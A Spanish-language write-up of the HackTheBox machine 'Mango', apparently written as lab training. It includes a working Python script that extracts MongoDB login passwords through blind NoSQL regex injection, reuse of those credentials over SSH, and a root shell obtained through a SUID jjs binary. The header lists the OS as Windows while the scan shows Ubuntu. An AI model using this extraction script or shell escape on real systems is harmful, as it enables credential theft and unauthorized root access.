

---
title: Mango writeup
author: Emilio Cabrera
date: 2020-04-16
---

# Detalles de la máquina

| | |
|-|-|
| IP         | 10.10.10.162 |
| SO         | Windows      |
| Dificultad | Fácil        |

# Enumeración

Como siempre empezamos usando nmap para encontrar puertos abiertos y servicios
escuchando en la máquina, mientras nmap se ejecuta podemos acceder a la ip de la
máquina en el navegador.

```shell
# nmap -A 10.10.10.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-16 13:04 CDT
Nmap scan report for 10.10.10.162
Host is up (0.27s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
...
```

En el navegador nos recibe un mensaje 403 Forbidden, en nmap encontramos que
además del puerto 80, están abiertos el 443 y el 22, así que probamos acceder a
la ip usando HTTPS. Ahora somos recibidos por un motor de búsqueda, en esta
página el único enlace que nos lleva a algún lugar es el de _Analytics_.


En la página de analytics nos encontramos con un dashboard que al parecer puede
conectarse a una instancia de elasticsearch, una búsqueda rápida en internet
revela que los puertos donde normalmente encontramos a elasticsearch son en el
rango de los 9000, así que volvemos a ejecutar nmap para buscar por puertos en
este rango y no encontramos absolutamente nada.

# Vulnerabilidad y explotación

Estoy regresando a escribir después de varias horas de infructuoso picar y picar
en el servidor. Una de las cosas que debió llamar mi atención desde el comienzo
es el uso de HTTPS para el sitio y el mensaje 403 en la página inicial. Una de
las características de los servidores web es la posibilidad de servir diferentes
sitios dependiendo del dominio que se solicite al servidor, incluso cuando esos
dominios corresponden a la misma IP. Este comportamiento es algo que he usado en
el pasado al configurar servidores, pero que en este contexto no se me ocurrió
en ningún momento, encontré esta pista en los foros de HackTheBox.

Hasta ahora habíamos consultado el sitio usando HTTPS en la ip 10.10.10.162,
pero si revisamos el certificado del sitio vemos que el certificado es para el
dominio staging-order.mango.htb, si añadimos esta entrada a nuestro archivo
`/etc/hosts` y accedemos a este sitio desde el navegador nos encontramos con una
página distinta de las anteriores, eso significa que en efecto, el servidor esta
configurado para servir distintas páginas dependiendo de si lo consultas por
HTTP o HTTPS o si lo consultas como 10.10.10.162 o como staging-order.mango.htb.

El hecho de que esta página tenga una imagen de mangos me da bastante seguridad
de que vamos en el rumbo correcto, ah, también por el login.


De nuevo han pasado un par de horas de picar piedra, piedra que jamás había
picado. Una lista de cosas que probé antes de regresar al camino correcto:

- Ejecutar gobuster en este dominio para encontrar archivos php o endpoints
- Probar combinaciones de usuario y contraseña
- Inyecciones sencillas de SQL y NoSQL en el formulario de login

Este último intento estaba cerca del camino correcto. El nombre de la máquina da
una idea de que probablemente este formulario esta construido usando como base
de datos MongoDB, de hecho es común que el nombre de la máquina sea una pista
del camino adecuado.

Así como existen inyecciones de SQL que afectan a bases de datos relacionales,
también existen este tipo de ataques para motores no relacionales como Mongo, y
un buen lugar para encontrar cadenas peligrosas para inyectar es repo
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). Al
principio probé todas (o eso creo) las cadenas en la sección de MongoDB Payloads
pero no paso nada interesante, el servidor solo respondía enviando de nuevo la
pagina del login y creí que estaba de nuevo en un agujero sin salida.

Después de picar por un buen rato sin saber bien lo que hacía decidí aprender
sobre el tema de inyecciones y no solo copiar y pegar. Estos dos sitios me
ayudaron a entender que era lo que estaba intentando lograr

- [NOSQL INJECTION](https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf)
- [Les NOSQL injections Classique et Blind: Never trust user input](https://www.dailysecurity.fr/nosql-injections-classique-blind/)

Esta última liga fue de muchísima ayuda para de verdad entender que era lo que
estaba haciendo. Si regresamos al navegador y usamos las herramientas de
desarrollo podemos ver la petición que el navegador envía al servidor y vemos
que es muy parecida a lo que muestra el blog. Siendo incluso más observadores
podemos ver que cuando enviamos una petición con credenciales erróneas el
servidor nos responde con un código 200, pero cuando enviamos una petición
usando algún operador válido de MongoDB nos responde un código 302 y luego nos
redirige a home.php para nuevamente redirigirnos a index.php.



Eso significa que podemos enviar consultas y verificar el código de respuesta
de la petición para saber si hemos acertado o no una consulta en MongoDB. Con
esto hice un script en python3, si quieres entender que hace recomiendo que
leas las dos ligas que he puesto antes y los ejemplos de PayloadsAllTheThings.

```python
#!/bin/python3

import requests
import urllib3
import urllib
from urllib.parse import quote
urllib3.disable_warnings()

# estos usuarios son solo una ocurrencia
usernames=['admin', 'mango', 'sweet', 'juicy', 'root']
url='http://staging-order.mango.htb/index.php'
#url='http://localhost:5533'

headers={
    "Host": "staging-order.mango.htb",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Referer": "http://staging-order.mango.htb/index.php",
    "Content-Type": "application/x-www-form-urlencoded",
    "Cookie": "PHPSESSID=sojrmfjb7sf228g1to8ffok81q",
    "Cache-Control": "max-age=0",
}

def find_password_length(username, max_length=64):
    for i in range(1, max_length+1):
        payload = f"username={username}&password[$regex]=.{{{i}}}&login=login"
        response = requests.post(url, headers=headers, data=payload, allow_redirects=False)
        if response.status_code != 302:
            return i-1

def find_password(username, length):
    chars="""0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#'(),-/:;<=>@[]^_`{}~ """
    password = ''
    for i in reversed(range(length)):
        char_found = False
        for char in chars:
            payload=f"username={username}&password[$regex]={quote(password+char)}.{{{i}}}&login=login"
            response = requests.post(url, headers=headers, data=payload, allow_redirects=False)
            if response.status_code == 302:
                char_found = True
                password += char
                break
        if not char_found:
            print(f"All chars used but no match found. The password probably includes special chars")
            return ''
    return password

for username in usernames:
    payload=f"username[$eq]={username}&password[$ne]=&login=login"
    response = requests.post(url, headers=headers, data=payload, allow_redirects=False)
    if response.status_code == 302:
        print(f"User {username} is valid")
        length = find_password_length(username)
        print(f"Password length: {length}")
        password = find_password(username, length)
        if password:
            print("Password found!: ", password)
        else:
            print("Error finding password")
```

Con esto obtenemos 2 credenciales, una es del usuario admin y otra del usuario
`mango`. Si introducimos los datos del usuario admin en el formulario somos
redirigidos a home.php que es otro agujero sin salida y las credenciales de
mango no hacen nada en el formulario.

# Entrada a la máquina

En vista del éxito no obtenido con el formulario podemos revisar si se reusaron
las credenciales en ssh. Vemos que admin no parece haber reusado su password o
no es posible acceder a su cuenta desde ssh. En cambio el usuario mango si reuso
sus credenciales y ahora tenemos acceso a la computadora.

# Movimiento lateral

Comenzamos a enumerar dentro de la computadora, vemos que mongo esta
ejecutándose en la máquina y que podemos leer los archivos del usuario admin,
probablemente nuestro siguiente paso es obtener una shell como admin, también
vemos que hay un binario con SUID de admin.

Ya que tenemos la contraseña de admin podemos probar de nuevo usarla para
iniciar sesión, quizá solo no tenía acceso por ssh.

```shell
mango@mango:~$ su - admin
Password:
$
```

Ahora tenemos la bandera del usuario.

# Escalada de privilegios

Ya habíamos identificado un binario que pertenece a admin con el SUID activado,
por si las dudas comprobamos si podemos ejecutar sudo y no podemos. El
binario con SUID es jjs, si buscamos en GTFOBins este binario vemos que es
posible ejecutar una shell usando este programa, sin embargo por alguna razón
el oneliner de GTFOBins no me funcionó, y tuve que usar la siguiente linea
dentro del interprete, solo usar echo no funcionó tampoco.

```java
jjs> new java.lang.ProcessBuilder("bash", "-p").inheritIO().start().waitFor();
```

Con esto obtenemos una shell como root y podemos obtener la bandera de root.


